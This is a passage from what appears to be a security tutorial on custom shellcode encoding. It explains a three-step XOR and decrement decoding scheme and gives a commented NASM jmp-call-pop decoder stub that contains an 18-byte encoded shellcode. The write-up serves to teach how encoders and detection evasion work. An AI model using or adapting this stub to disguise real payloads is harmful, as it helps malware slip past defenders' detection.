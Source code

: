 ### Decoding Scheme

The decoding scheme is the same as the encoding scheme, only in reverse:

![](<../../.gitbook/assets/image (668).png>)

...which means that we will have to iterate through all the encoded bytes of the shellcode and transform them into original bytes like this:

1. xor with 0x11
2. decrement by 0x1 (because we incremented when encoding, we need to decrement now)
3. xor with 0x55

A fully commented NASM `decoder.asm` is here:

{% code title="decoder.asm" %}
```cpp
global _start

section .text
    _start:
        jmp short shellcode

    decoder:
        pop rax                 ; store encodedShellcode address in rax - this is the address that we will jump to once all the bytes in the encodedShellcode have been decoded

    setup:
        xor rcx, rcx            ; reset rcx to 0, will use this as a loop counter
        mov rdx, 0x12           ; shellcode size is 18 bytes

    decoderStub:
        cmp rcx, rdx            ; check if we've iterated and decoded all the encoded bytes
        je encodedShellcode     ; jump to the encodedShellcode, which actually now contains the decoded shellcode
        
        ; encodedShellcode bytes are being decoded here per our decoding scheme
        xor byte [rax], 0x11    ; 1. xor byte with 0x11
        dec byte [rax]          ; 2. decremenet byte by 1
        xor byte [rax], 0x55    ; 3. xor byte with 0x55
        
        inc rax                 ; point rax to the next encoded byte in encodedShellcode
        inc rcx                 ; increase loop counter
        jmp short decoderStub   ; repeat decoding procedure
            
    shellcode:
        call decoder            ; jump to decoder label. This pushes the address of encodedShellcode to the stack (to be popped into rax as the first instruction under the decoder label)
        encodedShellcode: db 0x2a,0x39,0x2c,0x22,0x2c,0x2d,0x24,0x2b,0x67,0x36,0x2f,0x20,0x2b,0x2b,0x26,0x2a,0x23,0x20
```
{% endcode %}
